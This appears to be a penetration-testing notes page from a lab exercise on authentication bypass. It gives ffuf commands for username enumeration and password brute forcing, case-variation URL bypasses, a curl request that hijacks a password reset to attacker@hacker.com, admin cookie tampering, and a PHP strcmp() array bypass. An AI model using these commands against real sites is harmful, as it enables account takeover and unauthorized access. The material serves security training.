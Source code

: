 # Authentication Bypass

## Username Enumeration

* Try a random username that probably does not exist, and then try one that probably exists, is there a different error?

```
jksaljkfl <- username that does not exist
admin <- username that probably exists
guest <- another potential username
```

* We can use the existence of this error message to produce a list of valid usernames already signed up on the system by using the ffuf tool below
* The ffuf tool uses a list of commonly used usernames to check against for any matches.
* Capture the request in `Burp` to find the `Content-Type`, whether its a `GET` or `POST`

```
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/signup -mr "username already exists"
```

* `-w` -> selects the file's location
* `-X` -> argument specifies the request method
* `-d` -> the data that we are going to send
* `FUZZ` -> keyword signifies where the contents from our wordlist will be inserted in the request
* `-H` -> for adding additional headers to the request
* `-u` -> specifies the URL we are making the request to
* `-mr` -> is the text on the page we are looking for to validate we've found a valid username

## Password Brute force attack

```
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200
```

* Previously we used the FUZZ keyword to select where in the request the data from the wordlists would be inserted, but because we're using multiple wordlists, we have to specify our own FUZZ keyword.
* `W1` -> for our valid list of usernames
* `W2` -> for the list of passwords we are going to try
* `-w` -> the multiple word lists are also specified with this flag
* `-fc` -> this argument check for an HTTP status code other than a 200

## Authentication Bypass Logic Flaw

* If a specific url is blocked without authentication like `/admin`, depending on the code you may be able to bypass it.
* Try:

```
/adMin
/aDmIn
```

### Finding password reset forms

* If there is an option always make an account. There could be pages you have access to that you otherwise would not.
* Also if there is a password reset option on the site you might be able to get their password reset link sent to you.
* Use curl to figure out how the parameters are passed to the server, in this example the username is a `POST` field and the email address is a `GET` field

```
curl 'http://10.10.115.78/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
```

* `-H` -> to add an additional header to the request. In this case we are setting the `Content-Type` to `application/x-www-form-urlencoded`
* Can find this out in burp, or set something ourselves
* The `PHP $_REQUEST` variable is an array that contains data received from the query string and POST data. - If the same key name is used for both the query string and POST data, the application logic for this variable favours POST data fields rather than the query string, so if we add another parameter to the POST form
* We can control where the password reset email gets delivered.

```
curl 'http://10.10.115.78/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```

* Now re-running the curl command we can alter where the reset link is sent

```
curl 'http://10.10.115.78/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'
```

## Cookie Tampering

* Decode the stored cookies and see if you can manipulate them before making curl requests with the new tampered cookies.
* First, we'll start just by requesting the target page:

```
curl http://MACHINE_IP/cookie-test
```

* We can see we are returned a message of: Not Logged In
* Now we'll send another request with the logged\_in cookie set to true and the admin cookie set to false:

```
curl -H "Cookie: logged_in=true; admin=false" http://MACHINE_IP/cookie-test
```

* We are given the message: Logged In As A User
* Finally, we'll send one last request setting both the logged\_in and admin cookie to true:

```
curl -H "Cookie: logged_in=true; admin=true" http://MACHINE_IP/cookie-test
```

* This returns the result: Logged In As An Admin

### strcmp() PHP bypass

* If you are able to get access to some php course code that uses `strcmp()` for checking usernames and passwords, bypassing it can be trivial&#x20;

<figure><img src="../.gitbook/assets/image (3) (3).png" alt=""><figcaption><p>Example of php source code using strcmp()</p></figcaption></figure>

* By capturing the authentication in burp you can turn the username and or password field into an array, bypassing the authentication, in this instance we must do it for both the username and password fields.

<figure><img src="../.gitbook/assets/image (5) (2).png" alt=""><figcaption></figcaption></figure>

* When submitting a normal request, we are informed that `'Wrong Username or Password'`
* However, once we change our parameters into an array value with the fields === 0, we login&#x20;

<figure><img src="../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

* `username[]=0&password[]=0`

<figure><img src="../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>
